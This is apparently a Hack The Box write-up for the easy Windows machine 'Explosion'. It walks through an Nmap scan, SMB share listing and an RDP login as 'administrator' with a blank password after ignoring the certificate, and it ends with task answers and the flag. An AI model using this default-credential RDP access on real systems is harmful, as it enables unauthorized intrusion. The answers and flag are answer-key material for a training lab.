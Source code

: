 ```yaml
---
title: HackTheBox Explosion Writeup
authors: Samarth
categories: [HackTheBox , Starting Point - Tier 0]
tags: [Windows, Programming, RDP, Reconnaissance, Weak Credentials]
math: true
mermaid: true
---
```


![Explosion-HTB](/assets/images/starting-point/Explosion-HTB/banner.png)

## TL;DR

This writeup is based on the [__Explosion__](https://app.hackthebox.com/starting-point){:target="_blank"} machine, an easy-rated Windows box on Hack the Box. After scanning the target, I found several open ports, including SMB (445) and RDP (3389). SMB enumeration did not reveal useful information, so I attempted to access the system via RDP. Initially, I encountered a certificate mismatch error, but I bypassed it and tried common usernames. The `administrator` account allowed access, granting me a remote desktop session. On the desktop, I found a `flag.txt` file, which contained the flag for the machine.

## Scanning Network

I started with an Nmap scan and found ports 135, 139, 445, 3389, open, which correspond to MSRPC, NetBIOS-SSN, Microsoft-DS, and Microsoft Terminal services. Let’s see the Nmap results.

```bash
nmap -sC -sV -A -T4 -Pn 10.129.12.69 -oN scan/normal.scan
Starting Nmap 7.94 ( https://nmap.org ) at 2025-02-15 20:16 IST
Nmap scan report for 10.129.12.69
Host is up (0.22s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2025-02-14T14:20:12
|_Not valid after:  2025-08-16T14:20:12
|_ssl-date: 2025-02-15T14:46:57+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2025-02-15T14:46:48+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-02-15T14:46:49
|_  start_date: N/A
```

## Enumeration

`Windows RPC` is used for remote procedure calls on Windows systems. It's often associated with various Windows services. I can further enumerate `RPC` service further using `rpcclient` or `wmiexec`.

`NetBION-ssn` is used for file and printer sharing in older Windows versions. NetBIOS could allow for enumeration of shares and users on the system. I can further enumerate shares, users and other information using `nmblookup` or `enum4linux`.

`Microsoft-DS` is used by modern versions of Windows for SMB (Server Message Block). I can further enumerate SMB shares, users and more using `smbclient` or `smbmap`.

`Remote Desktop Protocol (RDP)` is a proprietary protocol developed by Microsoft that provides a graphical interface for users to connect to a remote computer over a network. It is typically used for remote administration and remote desktop access. I can use `xfreerdp` or `rdesktop`.

Let's start with enumerating `SMB` shares.

```bash
smbclient -L \\\\10.129.12.69\\ --option='client min protocol=SMB2'
Password for [WORKGROUP\samh4cks]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

While inspecting `SMB` shares, I did not find anything interesting but `RDP` service caught my attention as it provides remote desktop access.

I will be using `xfreerdp` to connect with the computer.

```bash
xfreerdp /v:10.129.12.69
[20:46:46:526] [146371:146372] [INFO][com.freerdp.client.x11] - No user name set. - Using login name: samh4cks
[20:46:47:532] [146371:146372] [INFO][com.freerdp.crypto] - creating directory /home/samh4cks/.config/freerdp
[20:46:47:532] [146371:146372] [INFO][com.freerdp.crypto] - creating directory [/home/samh4cks/.config/freerdp/certs]
[20:46:47:532] [146371:146372] [INFO][com.freerdp.crypto] - created directory [/home/samh4cks/.config/freerdp/server]
[20:46:48:080] [146371:146372] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[20:46:48:080] [146371:146372] [WARN][com.freerdp.crypto] - CN = Explosion
[20:46:48:082] [146371:146372] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[20:46:48:082] [146371:146372] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[20:46:48:082] [146371:146372] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[20:46:48:082] [146371:146372] [ERROR][com.freerdp.crypto] - The hostname used for this connection (10.129.12.69:3389) 
[20:46:48:082] [146371:146372] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[20:46:48:082] [146371:146372] [ERROR][com.freerdp.crypto] - Common Name (CN):
[20:46:48:082] [146371:146372] [ERROR][com.freerdp.crypto] - 	Explosion
[20:46:48:082] [146371:146372] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 10.129.12.69:3389 (RDP-Server):
	Common Name: Explosion
	Subject:     CN = Explosion
	Issuer:      CN = Explosion
	Thumbprint:  09:0f:ce:b8:98:3a:4a:f0:b6:72:62:01:0f:a3:da:bd:c7:24:82:68:43:b4:bc:c8:df:c8:c7:28:64:8c:03:44
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
Domain:   EXPLOSION
Password: 
[20:47:00:884] [146371:146372] [ERROR][com.freerdp.core] - transport_ssl_cb:freerdp_set_last_error_ex ERRCONNECT_PASSWORD_CERTAINLY_EXPIRED [0x0002000F]
[20:47:00:884] [146371:146372] [ERROR][com.freerdp.core.transport] - BIO_read returned an error: error:0A000438:SSL routines::tlsv1 alert internal error
```

By executing the `xfreerdp /v:10.129.12.69` command, the certificate mismatch error occured so I decided to ignore the certificate and would try logging in via some default or common usernames as `admin`, `administrator`, `root`, etc.

```bash
xfreerdp /v:10.129.12.69 /u:admin /cert:ignore 
Password: 
[21:31:40:252] [169600:169601] [ERROR][com.freerdp.core] - transport_ssl_cb:freerdp_set_last_error_ex ERRCONNECT_PASSWORD_CERTAINLY_EXPIRED [0x0002000F]
[21:31:40:346] [169600:169601] [ERROR][com.freerdp.core.transport] - BIO_read returned an error: error:0A000438:SSL routines::tlsv1 alert internal error
```

For the `admin` user, `RDP` did not allow access to the computer, so I decided to try `administrator`.

```bash
xfreerdp /v:10.129.12.69 /u:administrator /cert:ignore
Password: 
[21:32:02:974] [169772:169773] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: Asia/Kolkata
[21:32:02:583] [169772:169773] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[21:32:02:583] [169772:169773] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[21:32:02:633] [169772:169773] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[21:32:02:634] [169772:169773] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
```

![RDP](/assets/images/starting-point/Explosion-HTB/1.png)

`RDP` allowed remote desktop access to `administrator` user. The desktop consist of text file named as `flag.txt` which will be containing flag.

![Flag](/assets/images/starting-point/Explosion-HTB/2.png)

## Tasks

### What does the 3-letter acronym RDP stand for?

```plaintext
Remote Desktop Protocol
```

### What is a 3-letter acronym that refers to interaction with the host through a command line interface?

```plaintext
cli
```

### What about graphical user interface interactions?

```plaintext
GUI
```

### What is the name of an old remote access tool that came without encryption by default and listens on TCP port 23?

```plaintext
telnet
```

### What is the name of the service running on port 3389 TCP?

```plaintext
ms-wbt-server
```

### What is the switch used to specify the target host's IP address when using xfreerdp?

```plaintext
/v:
```

### What username successfully returns a desktop projection to us with a blank password?

```plaintext
administrator
```

### Submit root flag

```plaintext
951fa96d7830c451b536be5a6be008a0
```